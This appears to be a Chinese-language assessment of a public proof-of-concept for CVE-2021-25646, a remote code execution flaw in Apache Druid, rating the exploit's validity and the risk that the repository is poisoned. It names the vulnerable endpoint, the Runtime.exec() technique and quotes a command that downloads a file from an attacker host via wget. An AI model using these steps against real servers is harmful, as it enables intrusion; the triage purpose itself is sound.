 ## CVE-2021-25646-Apache Druid-远程代码执行

**漏洞编号:** CVE-2021-25646

**漏洞类型:** 远程代码执行

**影响应用:** Apache Druid

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** <= 0.20.0

**利用条件:** 需要目标Druid服务器版本低于或等于0.20.0，且攻击者需要具有经过身份验证的访问权限（根据漏洞库信息）。但根据部分搜索结果，某些默认配置可能无需身份验证。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-25646 漏洞允许经过身份验证的用户（或者在某些未授权配置下，未经身份验证的用户）通过发送特制的 HTTP 请求，在 Apache Druid 服务器上执行任意 JavaScript 代码，从而实现远程代码执行。  

**有效性评估：**
根据漏洞信息和搜索结果，该漏洞是真实存在的，并且存在公开的POC代码。提供的POC代码通过`POST /druid/indexer/v1/sampler?for=filter`发送包含恶意JavaScript代码的JSON数据，利用Druid的`filter`功能执行`wget`命令，下载恶意文件到`/tmp/hacked.txt`。因此，该POC代码是有效的。

**投毒风险分析：**
Payload.txt中的代码会尝试从攻击者的IP地址下载文件，存在潜在的投毒风险。攻击者可以替换文件内容，例如下载恶意的二进制文件或其他payload。README.md文件只是一个简单的说明，本身不包含恶意代码。

分析 Payload.txt 文件，其中的 JavaScript 代码旨在通过 `wget` 命令从 `IP/file` 下载文件到 `/tmp/hacked.txt`。这段代码本身不包含后门或者恶意逻辑，只是下载文件。但如果攻击者替换 `IP/file` 指向恶意文件，则可能造成投毒。

风险评估：
- **下载恶意文件:** 90% 的风险在于，攻击者可能会修改 `IP/file` 指向一个恶意的可执行文件、脚本或其他有害内容，导致受害者系统感染或被控制。
- **代码本身:** 代码本身（`wget IP/file -O /tmp/hacked.txt`）的恶意性只有 10%，因为这只是一个下载操作，恶意性取决于下载的内容。

**利用方式：**
1.  **身份验证：**  根据漏洞描述，默认需要首先通过Druid的身份验证机制。但是，需要注意的是，某些搜索结果表明，在某些默认配置下，Druid可能存在未授权访问的情况，无需身份验证即可利用此漏洞。
2.  **构造恶意请求：**  构造一个包含恶意JavaScript代码的JSON数据包，并将其发送到`/druid/indexer/v1/sampler?for=filter`端点。
3.  **代码执行：**  Druid服务器解析该请求，执行嵌入的JavaScript代码，从而实现远程代码执行。
4.  **利用 JavaScript 执行系统命令:** POC 利用 `java.lang.Runtime.getRuntime().exec()` 来执行系统命令 `wget IP/file -O /tmp/hacked.txt`。这里的核心是使用 Java 的 Runtime 对象来执行任意系统命令。

**总结：**
该漏洞利用方式简单，危害性高，利用代码有效，但存在一定的投毒风险，需要谨慎使用。

**项目地址:** [Vulnmachines/Apache-Druid-CVE-2021-25646](https://github.com/Vulnmachines/Apache-Druid-CVE-2021-25646)

**漏洞详情:** [CVE-2021-25646](https://nvd.nist.gov/vuln/detail/CVE-2021-25646)